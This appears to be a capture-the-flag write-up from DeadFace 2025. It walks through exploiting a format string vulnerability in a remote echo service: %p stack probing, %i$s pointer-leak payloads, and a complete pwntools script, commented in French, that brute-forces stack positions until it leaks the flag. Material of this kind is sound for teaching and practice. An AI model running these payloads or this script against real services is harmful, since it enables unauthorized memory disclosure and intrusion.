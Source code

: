 ```yaml
---
title : Echo Chamber Write Up [DeadFace 2025]
date : 2025-10-27 16:00:00 -0500
categories : [WriteUps]
tags : [DeadFace 2025, pwn]
---
```



---

## Echo Chamber

This challenge involved a pwn task on a remote service. The description "echoes messages without sanitizing input" strongly suggested a format string vulnerability.

### Initial Reconnaissance

First, I connected to the service using netcat to understand its behavior.

nc echochamber.deadface.io 13337


The service presented a simple prompt:
DEADFACE Echo Chamber
Enter your message: 

Sending a normal string like hello simply echoed it back:
Echo: hello

This confirmed the "echo" behavior. The next logical step was to test for a format string vulnerability by sending a format specifier.

Enter your message: %p
Echo: 0x402000

The service did not echo %p. Instead, it echoed a hexadecimal value, which is a classic sign of a printf-like function processing the user's input directly as its format string argument. This confirmed the vulnerability.

### Vulnerability Analysis

To see what was on the stack, I sent a chain of %p specifiers.

Enter your message: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Echo: 0x402000.0x402000.0.0x7fffffff.0.0x70252e70252e7025.0x252e70252e70252e. ...

The response was very revealing. The 6th value, 0x70252e70252e7025, is the ASCII representation of p%.p%. in little-endian. This meant that starting from the 6th argument, printf was reading our own input string from the stack.

This deduction was key:

Arguments 1-5 were existing data on the stack.

Arguments 6 onwards were our own input buffer.

The flag (or a pointer to it) was likely either in positions 1-5 or at a later position, after our input string.

### Exploitation

Since the flag is likely a string, it's more efficient to look for a pointer to it rather than leaking the raw stack values. The %s specifier tells printf to take an address from the stack and print the null-terminated string at that location.

By using positional arguments like %i$s (where i is the stack position), we can systematically test each position to see if it holds a pointer to the flag.

The strategy is to loop from i=1 upwards:

Connect to the service.

Send the payload %i$s.

Read the response.

If the response contains deadface, we found the flag.

If not (or if the service crashes, which it will on an invalid pointer), disconnect and try i+1.

### Finding the Flag

I automated this process with a simple Python script using pwntools. The script loops through stack positions, sends the payload, and checks the response.

The script quickly found the flag:

## Flag

<p style="text-align: left;">
  <img src="{{ '/assets/img/flag_echo_chamber.png' | relative_url }}" alt="Picture of the flag returned by our Python script">
</p>

deadface{r3tr0_f0rm4t_L34k_3xp0s3d}


## Full code for the Python Script with pwntools

```python 

 #!/usr/bin/env python3
from pwn import *

HOST = "echochamber.deadface.io"
PORT = 13337

#  teste les 100 premiers arguments de la pile.
for i in range(1, 100):
    try:
        # Affiche quelle position on teste
        log.info(f"[*] Test de la position : {i}")

        # Connexion au service distant
        r = remote(HOST, PORT)

        r.recvuntil(b"Enter your message: ")
        
        # Formatage du payload,
        # .encode() le convertit en bytes pour l'envoi
        payload = f"%{i}$s".encode()

        # Envoi du payload
        r.sendline(payload)
        
        # On lit la réponse. On met un timeout dans le cas ou réponse invalide
        response = r.recvall(timeout=0.5)

        # Vérification !
        if b"deadface{" in response:
            log.success("[***] FLAG TROUVÉ ! [***]")
            
            # On décode la réponse pour l'afficher proprement
            print(response.decode(errors='ignore'))
            break
        r.close()

    except EOFError:
        log.warning(f"Position {i} a causé un crash (EOFError).")
        r.close()
    except Exception as e:
        log.error(f"Erreur à la position {i}: {e}")
        r.close()

log.info("Script terminé.") 

```